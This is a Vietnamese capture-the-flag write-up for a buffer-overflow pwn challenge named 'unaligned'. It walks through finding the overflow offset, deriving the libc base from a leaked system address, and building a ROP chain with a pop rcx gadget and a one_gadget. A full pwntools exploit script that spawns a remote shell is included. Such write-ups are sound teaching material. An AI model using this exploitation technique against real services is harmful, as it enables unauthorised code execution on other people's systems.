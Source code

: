 # BOF

Kiểm tra các chế độ bảo vệ cơ bản của chương trình :

![image](https://user-images.githubusercontent.com/93699926/236652416-f2fc62f5-d06a-4ba4-a71c-726c908668c9.png)

Chế độ bảo vệ Canary khôg được bật, sẽ dễ dàng hơn trong việc thực hiện overflow và điều khiển luồng thực thi của chương trình

Kiểm tra luồng thực thi của chương trình trong IDA ta có như sau :

![image](https://user-images.githubusercontent.com/93699926/236652465-7beb36b4-826b-4971-ac7d-f55291919582.png)

Chương trình cho ta địa chỉ hàm SYSTEM như một món quà ,và sẽ cho ta nhập vào địa chỉ s[256] tới tận 64 byte,
rõ ràng đây là lỗi BOF . kiểm tra thông qua IDA ta có thể dễ dàng tính được offset từ s[256] tới saved rip của main là 0x28.
Vì bài bài này pie tắt và ta sẽ không thể loop lại chươg trình vì không có địa chỉ exe nên nếu ta khai thác theo hướng gọi system("/bin/sh") thì sẽ có lỗi
 khi mà địa chỉ RBP của ta không phải là địa chỉ hợp lệ . Vậy ta sẽ sử dụng one_gadget :

![image](https://user-images.githubusercontent.com/93699926/236652588-d5bce5f3-380a-4b26-b46c-425848e60942.png)

sử dụng onegadget đầu tiên, ta sẽ thêm một gadget lâys từ libc là pop rcx nữa để đảm bảo điều kiện thực thi nó 
. câu lệnh `ropper --f libc.so.6 > rop.txt ; cat rop.txt|grep pop`

vì khi chương trìn sẽ đọc vô địa chỉ s[256] 0x40 bytes. vậy 0x40-0x28=0x18(đủ chỗ cho 3 gadget lận).
==> nên payload của ta sẽ là 

```python
payload=b"A"*0x28
payload+=flat(
  pop_rcx,0,
  onegadget,
  )
```

fullscript in p.py:

```python3
from pwn import *
context.binary=exe=ELF("./unaligned",checksec=False)
libc=ELF("./libc.so.6",checksec=False)
#p=process(exe.path)
p=remote("unaligned.bsides.shellmates.club",443,ssl=True)
def GDB():
        gdb.attach(p,gdbscript=
                '''
                ni
                '''
                )
        input()



#GDB()
offest=0x28
p.recvuntil(b"Gift: ")
leak=int(p.recvline()[:-1],16)
log.info('[+]leak:'+hex(leak))
libc.address=leak-0x4f420
log.info('[+]libc base:'+hex(libc.address))
pop_rcx=libc.address+0x000000000010c423
pop_rdi=libc.address+0x000000000002164f
syscall=libc.address+0x00000000000d2625
ret=libc.address+0x00000000000008aa
pop_rsp=libc.address+0x000000000000396c
payload=b"C"*(offest)
payload+=flat(
        pop_rcx,0,
        libc.address+0x4f2a5,
        )

p.sendlineafter(b"Name: ",payload)
p.interactive()
```

chạy script:

![image](https://user-images.githubusercontent.com/93699926/236652769-28e11351-f371-439d-b282-a3f2615fa64c.png)
